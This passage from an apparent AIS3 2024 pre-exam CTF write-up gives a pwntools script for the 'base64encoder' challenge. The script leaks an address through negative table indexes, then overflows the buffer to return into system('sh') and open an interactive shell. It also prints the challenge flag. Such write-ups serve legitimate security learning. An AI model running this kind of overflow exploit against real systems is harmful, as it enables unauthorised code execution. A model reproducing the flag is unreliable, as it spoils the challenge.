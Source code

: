 ```python
from pwn import *

# p = process("./base64encoder")
# gdb.attach(p)
p = remote("chals1.ais3.org", 50002)

# the value of index -1 to -8 of table is the address of main+299
# 63 b' Result: -1 -17 -4 -1\n'
# 62 b' Result: -1 -17 -4 -2\n'
# 61 b' Result: -1 -17 -4 -3\n'
# 60 b' Result: -1 -17 -4 -4\n'
# 59 b' Result: -1 -17 -4 -5\n'
# 58 b' Result: -1 -17 -4 -6\n'
# 57 b' Result: -1 -17 -4 -7\n'
# 56 b' Result: -1 -17 -4 -8\n'

main_299 = 0

# leak main+299 address
for i in [63, 62, 61, 60, 59, 58, 57, 56]:
    p.recvuntil(b"Text:")
    p.sendline(b'\xff\xff' + chr(i).encode())
    main_299 <<= 8
    main_299 |= p.recvline()[-2]

log.success(hex(main_299))
# calculate address of Vincent55Orz base on main+299
log.success(hex(main_299 - 0x3cf))
# jump to Vincent55Orz for unknow reason doesn't work,
# so jump to system("sh") directly instead (+23 offset)
p.sendline(b"A" * 0x40 + p64(1) + p64(main_299 - 0x3cf + 23))
p.recvuntil(b"Text:")
# send emptyline to trigger ret for main
p.sendline()

# interactive shell
p.interactive()
```

![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/base64-encoder-solve-5.png)

## Flag

`AIS3{1_g0t_WA_on_my_H0m3work_Do_YoU_h4v3_aNY_idea???_22281a41372450db}`